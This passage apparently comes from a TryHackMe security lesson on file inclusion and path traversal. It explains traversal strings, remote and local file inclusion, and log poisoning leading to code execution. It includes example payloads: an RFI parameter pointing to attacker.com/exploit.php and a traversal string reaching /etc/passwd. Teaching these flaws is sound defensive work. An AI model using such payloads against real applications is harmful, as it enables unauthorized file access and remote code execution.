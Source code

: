For example, the application below includes a file based on user input. 

![Vulnerable application homepage](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/351e3ca1e5071b199ae7e5078b4fee70.png)  

If this input is not correctly validated and sanitized, an attacker might exploit the vulnerable parameter to include malicious files or access sensitive files on the server. In this case, the attacker could view the contents of the server's **passwd** file.

![Vulnerable application a basic file inclusion payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/53daf7efe0faff4ac5fadc3c410ecb64.png)  

In short, file inclusion and path traversal vulnerabilities arise when user inputs are not properly sanitized or validated. Since attackers can inject malicious payloads to log files `/var/log/apache2/access.log` and manipulate file paths to execute the logged payload, an attacker can achieve remote code execution. An attacker may also read configuration files that contain sensitive information, like database credentials, if the application returns the file in plaintext. Lastly, insufficient error handling may also reveal system paths or file structures, providing clues to attackers about potential targets for path traversal or file inclusion attacks.

# File Inclusion Types
---

#### Basics of File Inclusion

A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

Relative pathing refers to locating files based on the current directory. For example, `include('./folder/file.php')` implies that `file.php` is located inside a folder named `folder`, which is in the same directory as the executing script.

Absolute pathing involves specifying the complete path starting from the root directory. For example, `/var/www/html/folder/file.php` is an absolute path.

#### Remote File Inclusion

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.

#### Local File Inclusion

Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.

While LFI primarily leads to unauthorized file access, it can escalate to RCE. This can occur if the attacker can upload or inject executable code into a file that is later included or executed by the server. Techniques such as log poisoning, which means injecting code into log files and then including those log files, are examples of how LFI can lead to RCE.
